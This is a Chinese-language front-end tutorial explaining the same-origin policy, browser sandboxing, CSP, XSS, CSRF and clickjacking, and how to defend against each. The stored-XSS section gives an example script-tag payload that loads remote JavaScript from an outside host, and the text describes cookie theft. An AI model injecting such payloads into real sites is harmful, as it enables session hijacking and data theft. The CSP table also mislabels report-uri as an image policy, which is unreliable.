

# 浏览器安全相关知识

## 同源策略

同源策略是一种浏览器安全相关的策略，如果两个 URL 的协议、域名、端口号都相同，那么我们就称这两个 URL 同源。

举个 🌰：对于这个 URL(`https://meix.netlify.app/fe/browser/workPrinciple.html`)和下面这些 URL 相比源的结果如下:

```js
'https://meix.netlify.app/fe/browser/cache.html' //同源，只是路径不同
'https://meix.netlify.app/fe/javascript/types/' //同源，只是路径不同
'http://meix.netlify.app/fe/javascript/types/' //不同源，协议不同
'https://fe.netlify.app/fe/javascript/types/' //不同源，域名不同
'https://meix.netlify.app:81/fe/javascript/types/' //不同源，端口号不同
```

如果缺少了同源策略，浏览器很容易受到 XSS、CSRF 等攻击 。

:::tip 同源策略的限制

- 限制了来自不同源的 `JavaScript` 脚本对当前 DOM 对象读和写的操作；
- 限制了不同源的站点读取当前站点的 `Cookie`、`IndexDB`、`LocalStorage` 等数据；
- 限制了通过 `XMLHttpRequest` 等方式将站点的数据发送给不同源的站点。
  :::

虽然同源策略的限制可以使得我们的 Web 更加安全，但同时这些限制也束缚了我们的 Web，因此需要在安全和自由间寻找一个平衡点，**于是出现了一些新技术：**

- 针对两个不同源的 DOM 是不能相互操纵的问题，浏览器中实现了跨文档消息机制，让其可以比较安全地通信，可以通过 `window.postMessage` 的 `JavaScript` 接口来和不同源的 DOM 进行通信。
- 页面中可以引用第三方资源（不过这也暴露了很多诸如 XSS 的安全问题），因此又在这种开放的基础之上引入了内容安全策略 CSP 来限制其自由程度；
- 使用 `XMLHttpRequest` 和 `Fetch` 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略(CORS)，让其可以安全地进行跨域操作；

## 安全沙箱

早期的浏览器是单进程架构的，这样当某个标签页挂了之后，将影响到整个浏览器。所以出现了多进程架构，它通过给每个标签页分配一个渲染进程解决了这个问题。
而渲染进程的工作是进行 HTML、CSS 的解析，JavaScript 的执行等，而这部分内容是直接暴露给用户的，所以也是最容易被黑客利用攻击的地方，如果黑客攻击了这里就有可能获取到渲染进程的权限，进而威胁到操作系统。所以需要一道墙用来把不可信任的代码运行在一定的环境中，限制不可信代码访问隔离区之外的资源，而这道墙就是浏览器的安全沙箱。

多进程的浏览器架构将主要分为两块：浏览器内核和渲染内核。

- 安全沙箱能限制渲染进程对操作系统资源的访问和修改，同时渲染进程内部也没有读写操作系统的能力。
- 对操作系统资源的访问和修改以及读写操作系统的能力都是在浏览器内核中实现的，包括持久存储、网络访问和用户交互等一系列直接与操作系统交互的功能。

浏览器内核和渲染内核各自职责分明，当他们需要进行数据传输的时候会通过 IPC 进行。它们的职责分工如下所示：


:::warning 注意点
安全沙箱的存在是为了保护客户端操作系统免受黑客攻击，但是阻止不了 XSS 和 CSRF。
:::

## 内容安全策略（CSP）

内容安全策略（Content Security Policy）简称 CSP，通过它可以明确的告诉客户端浏览器当前页面的哪些外部资源可以被加载执行，而哪些又是不可以的。

:::tip
开发者可以明确的告诉客户端，通过制定比较严格的策略和规则，决定哪些外部资源是可以访问和加载的，这样可以保证即使攻击者发现了漏洞也是无法注入脚本的。
:::

### 如何启用 CSP

以下配置说明只允许当前源和`https://meix.netlify.app`这两个源加载和执行

1. 通过 HTTP 头部配置 `Content-Security-Policy`

```js
'Content-Security-Policy: script-src 'self' https://meix.netlify.app'
```

2. 通过网页的`<meta>`标签配置

```js
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://meix.netlify.app">
```

:::tip CSP 的限制

- 限制脚本的加载和执行
- 限制 font-src：字体来源；
- 限制 img-src：图片来源；
- 限制 style-src：样式来源；
  :::

CSP 功能：

- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止向第三方域提交数据，这样用户数据也不会外泄；
- 禁止执行内联脚本和未授权的脚本；
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题。

### CSP 的常见配置

内容安全策略允许加载同源的图片、脚本、AJAX 和 CSS 资源，并阻止加载其他任何资源。

配置多个同一类型的资源，需要将它们进行合并：

```js
Content-Security-Policy: script-src https://host1.com https://host2.com
```

配置多个不同类型的资源，使用分号;隔开：

```js
Content-Security-Policy: script-src https://host1.com; img-src https://host2.com
```

给来源列表指定关键字（关键字需要加上单引号）：

- 'none'：不执行任何匹配；
- 'self'：与当前来源（而不是其子域）匹配；
- 'unsafe-inline'：允许使用内联 JavaScript 和 CSS；
- 'unsafe-eval'：允许使用类似 eval 的 text-to-JavaScript 机制。

常用 CSP 指令：
| 指令 | 指令说明 |
| ---- | --- |
| default-src|默认加载策略|
| script-src|对 JavaScript 的加载策略|
| style-src|对样式的加载策略|
| img-src|对图片的加载策略|
| connect-src|对 Ajax，websocket 等请求的加载策略|
| font-src|针对字体的加载策略|
| object-src|针对、或等标签引入的 flash 等插件的加载策略|
| media-src|针对媒体引入的 HTML 多媒体的加载策略|
| frame-src|针对 frame 的加载策略|
| report-uri|对图片的加载策略|

问 ❓：同源策略、CSP、CORS(跨域资源共享) 之间的关系？

同源策略就是说同源的页面可以互相操作，但是不同源之间只能通过浏览器提供的手段来操作，比如：

- 读取数据和操作 DOM 要跨文档机制
- 引用第三方资源要用 CSP
- 跨域请求要用 CORS 机制

## 跨站脚本攻击（XSS）

支持引入第三方资源和 CORS 也带来了很多安全问题，其中最典型的就是 XSS 攻击。

跨站脚本攻击（Cross Site Scripting）本来缩写是 CSS，但是为了和层叠样式表（Cascading Style Sheet）的简写区分开来，所以在安全领域被称为 XSS。它是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

如果页面被注入了恶意脚本，这些恶意脚本能做哪些事情呢？

- 窃取 Cookie 信息：恶意脚本可以通过`document.cookie`获取 `Cookie` 信息，然后通过 `XMLHttpRequest` 或者 `Fetch` 加上 `CORS` 功能将数据发送给恶意服务器；恶意服务器拿到用户的 `Cookie` 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
- 监听用户行为：恶意脚本可以使用`addEventListener`接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。
- 通过修改 DOM 伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
- 在页面内生成浮窗广告

页面中被注入恶意脚本是一件非常危险的事情，所以作为一名开发者（不管是前端还是服务端），我们都最好知道这些恶意脚本是如何注入的，这样我们才能更好的避免被注入恶意脚本。通常情况下，注入恶意脚本的方式主要有以下三点：

### 存储型 XSS 攻击

存储型 XSS 攻击的步骤如下：

- 首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；比如说在表单输入框输入这样一段脚本：

```js
<script src="http://tod.cn/ReFgeasE"></script>
```

- 用户向网站请求包含了恶意 JavaScript 脚本的页面；
- 当用户浏览该页面的时候，恶意脚本可以通过 `document.cookie`获取到页面`Cookie`信息，然后通过`XMLHttpRequest`将这些信息发送给恶意服务器，恶意服务器拿到用户的`Cookie` 信息之后，就可以在其他电脑上模拟用户的登录，然后进行操作。

### 反射型 XSS 攻击

在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户。当恶意 JavaScript 脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作。

:::warning 注意点
与存储型 XSS 攻击的不同点：Web 服务器不会存储反射型 XSS 攻击的恶意脚本。
:::

### 基于 DOM 的 XSS 攻击

基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。通常是由于是前端代码不够严谨，把不可信的内容插入到了页面。在使用 .innerHTML、.outerHTML、.appendChild、document.write()等 API 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，尽量使用 .innerText、.textContent、.setAttribute() 等代替。

### 如何防止

对于 XSS 攻击，它们的一个共同点就是向浏览器注入恶意脚本，然后再通过恶意脚本将用户信息发送给恶意服务器。因此，要防止 XSS 攻击，就可以通过阻止恶意 `JavaScript` 脚本的注入和恶意消息的发送来实现。以下有几个防止 XSS 攻击的方案：

- 服务器对输入脚本进行过滤或转码。比如：script 转成 &lt;script&gt; 后脚本就无法执行了。
- 充分利用 CSP。实施严格的 CSP 规则，可以有效的防止 XSS 攻击。
- 使用 HttpOnly 属性。很多的 XSS 攻击都是用来获取 Cookie 的，因此可以使用 HttpOnly 属性来保护 Cookie。由于 JavaScript 无法读取设置了 HttpOnly 的 Cookie 数据，所以即使页面被注入了恶意 JavaScript 脚本，也是无法获取到设置了 HttpOnly 的数据。

## 跨站请求伪造（CSRF）

跨站请求伪造（Cross-site request forgery）简称是 CSRF：是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。

CSRF 攻击的步骤如下：

- 用户登录 A 网站，并且保留了登录信息（Cookie）；
- 被黑客诱导访问了 B 网站，从 A 跳转到 B；
- B 网站对 A 网站发出请求（这个就是下面将介绍的几种伪造请求的方式），浏览器请求头中会默认携带 A 网站的 Cookie；
- A 网站服务器收到请求后，经过验证发现用户是登录了的，所以会处理请求。

### 如何防止 CSRF 攻击

- 给 Cookie 设置合适的 SameSite。当从 A 网站登录后，会从响应头中返回服务器设置的 Cookie 信息，而如果 Cookie 携带了 SameSite=strict 则表示完全禁用第三方站点请求头携带 Cookie，比如当从 B 网站请求 A 网站接口的时候，浏览器的请求头将不会携带该 Cookie。SameSite 还有另外 2 个属性值：

  - Lax 是默认值，允许第三方站点的 GET 请求携带；
  - None 任何情况下都会携带；
    以下是一个响应头的 Set-Cookie 示例：

    ```js
    Set-Cookie: flavor=choco; SameSite=strict
    ```

- 同源检测。在服务端，通过请求头中携带的 Origin 或者 Referer 属性值进行判断请求是否来源同一站点，同时服务器应该优先检测 Origin。为了安全考虑，相比于 Referer，Origin 只包含了域名而不带路径。
- CSRF Token。

  - 在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的随机字符串，然后将该字符串植入到返回的页面中，通常是放到表单的隐藏输入框中，这样能够很好的保护 CSRF Token 不被泄漏。

  ```html
  <form action="https://platforma.com/withdraw" method="POST">
    <input type="hidden" name="csrf-token" value="nc98P987b" />
    <input type="text" name="account" />
    <input type="text" name="money" />
    <input type="submit" />
  </form>
  ```

  - 当浏览器再次发送请求的时候（比如转账），就需要携带这个 CSRF Token 值一并提交。
  - 服务器验证 CSRF Token 是否一致；从第三方网站发出的请求是无法获取用户页面中的 CSRF Token 值的。

## 点击劫持

点击劫持（Clickjacking）是一种通过视觉欺骗的手段来达到攻击目的手段。往往是攻击者将目标网站通过 iframe 嵌入到自己的网页中，通过 opacity 等手段设置 iframe 为透明的，使得肉眼不可见，这样一来当用户在攻击者的网站中操作的时候，比如点击某个按钮（这个按钮的顶层其实是 iframe），从而实现目标网站被点击劫持。

### 如何防止

- frame busting
  如果 A 页面通过 iframe 被嵌入到 B 页面，那么在 A 页面内部 window 对象将指向 iframe，而 top 将指向最顶层的网页这里是 B。所以可以依据这个原理来判断自己的页面是被 iframe 引入而嵌入到别人页面，如果是的话，则通过如下的判断会使得 B 页面将直接替换 A 的内容而显示，从而让用户发觉自己被骗。

```js
if (top.location != window.location) {
  top.location = window.location
}
```

- 在页面响应头设置 X-Frame-Options 属性。这个属性有 3 个属性值，分别是：
  - deny 表示该页面不允许嵌入到任何页面，包括同一域名页面也不允许；
  - sameorigin 表示只允许嵌入到同一域名的页面；
  - allow-from uri 表示可以嵌入到指定来源的页面中。
